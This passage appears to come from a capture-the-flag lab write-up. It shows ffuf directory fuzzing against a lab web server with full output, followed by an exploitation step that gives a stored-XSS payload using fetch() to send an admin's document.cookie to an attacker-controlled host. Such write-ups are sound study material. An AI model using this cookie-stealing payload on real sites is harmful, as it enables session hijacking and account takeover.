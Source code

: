 ```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.239.175/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.239.175/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

new                     [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 225ms]
images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 241ms]
login                   [Status: 200, Size: 857, Words: 200, Lines: 36, Duration: 429ms]
                        [Status: 200, Size: 1785, Words: 418, Lines: 66, Duration: 603ms]
signup                  [Status: 200, Size: 667, Words: 159, Lines: 31, Duration: 477ms]
admin                   [Status: 403, Size: 392, Words: 75, Lines: 22, Duration: 393ms]
Login                   [Status: 200, Size: 857, Words: 200, Lines: 36, Duration: 361ms]
messages                [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 336ms]
```

Let's begin exploitation.

# EXPLOITATION
---


Once we send the listing, we can check we got XSS, but we can also check this interesting stuff:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331161239.png)

We can check that we can report listing to admins, meaning that an admin user could possibly be surveilling the website and receiving the request, maybe we can exploit the XSS to get the admin cookie:

```
<script>
  fetch('http://10.6.34.159:8000/?cookie=' + document.cookie);
</script>
```
